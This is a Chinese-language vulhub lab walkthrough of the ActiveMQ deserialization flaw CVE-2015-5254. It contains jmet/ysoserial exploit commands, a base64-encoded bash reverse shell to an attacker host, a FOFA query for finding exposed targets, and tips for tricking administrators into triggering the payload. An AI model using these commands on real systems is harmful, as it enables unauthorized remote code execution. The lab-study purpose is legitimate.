vulhub复现
ActiveMQ 反序列化漏洞（CVE-2015-5254)
介绍
简介
Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。
1 | 消息队列组件：分布式系统中的重要组件，主要解决应用耦合、异步消息、流量削峰等 |
影响版本
Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞
漏洞成因
该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。
利用条件
- 版本符合
- 立即执行代码：能够有弱密码登录查看消息队列
- 没有查看队列所有消息的用户名和密码下，只能管理员/用户去点击我们插入的消息才能触发（比较鸡肋，但可以写入创建用户命令等待管理员点击查看，概率很大！）
业务场景
消息队列在大型电子商务类网站（JD、淘宝等）深入应用，主要消除高并发访问高峰，加快网站响应速度。
（例如：不使用消息队列用户请求会直接写入数据库，在高并发情况下会对数据库造成大压力，使系统响应延迟加剧。
在使用消息队列后，用户的请求发给队列后不会立即返回，如有时提交了订单，系统提示：“您提交了订单、请等待系统确认！”
再由消息队列组件从消息队列中获取数据，异步写入数据库，从而响应延迟得以改善）
寻找方式
fofa搜索app=“Apache-ActiveMQ”
漏洞环境
运行漏洞环境：
1 | docker compose up -d |

环境运行后，将监听61616和8161两个端口。其中61616是工作端口，消息在这个端口进行传递；8161是Web管理页面端口。访问http://your-ip:8161即可看到web管理页面，不过这个漏洞理论上是不需要web的。

漏洞复现
知识点
1 | jmet命令参数： |
漏洞利用过程如下：
- 构造（可以使用ysoserial）可执行命令的序列化对象
- 作为一个消息，发送给目标61616端口
- 访问web管理页面，读取消息，触发漏洞
复现过程：
1.信息收集
使用nmap探测对应网址端口信息
1 | nmap -p 1-65535 -sV ip |

在8161端口访问服务，确定使用ActiveMQ消息中间件

2.使用jmet进行漏洞利用（原理：使用集成的ysoserial生成payload并发送）。
在kali攻击机上下载jmet的jar（Java 消息利用工具）文件，然后在同目录下创建external文件夹。（否则可能会出现文件夹不存在的错误）
1 | #下载jmet的jar包 |
或者将jmet下载到本地，同级目录创建external目录

3.构造队列消息发送到目标服务器
1 | java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "touch /tmp/success" -Yp ROME ip 61616 |
命令解释：调用java -jar 运行 jmet的jar包，-Q是插入一个名为event的队列，-I 是选择装载ActiveMQ模块 ，-s 是选择ysoserial payload ，-Y 是攻击模式和内容， -Yp 是选择攻击利用链，这是选择是ROME， 之后带上IP加端口。
-Q 比如我修改event为hack 就成为插入一个名为hack的队列。
这里为在目标服务器/tmp目录创建一个文件
（使用ROME payload把执行touch /tmp/success命令序列化后作为event消息队列名发送给目标ActiveMQ）

此时会给目标ActiveMQ添加一个名为event的队列
4.访问web站点查看创建的消息队列是否成功（这里前提需要拿到BasicHTML认证的账号密码，这里为了演示admin:admin）
通过http://your-ip:8161/admin/browse.jsp?JMSDestination=event看到这个队列中所有消息
登录成功后查看创建的消息队列

当用户浏览事件点击该消息队列时便可触发反序列化漏洞

5.进入容器查看漏洞利用结果
1 | docker ps |

1 | cd /tmp |

可以看到success文件成功创建，也就是想要的远程命令已经被执行了
6.反弹shell的利用
1）将命令替换成弹shell的语句再利用；
2）将反弹语句bese64编码；
3）vps开启端口监听。
1 | #bash反弹命令 |
利用base64编码绕过：

1 | #反弹shell语句 |
7.执行命令
1 | java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg2LjEzOS8zMTAwNSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.86.139 61616 |

8.返回之前的event队列，再点击触发，ID同kali最后命令执行完成后的ID一样。

监听成功，获得shell

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。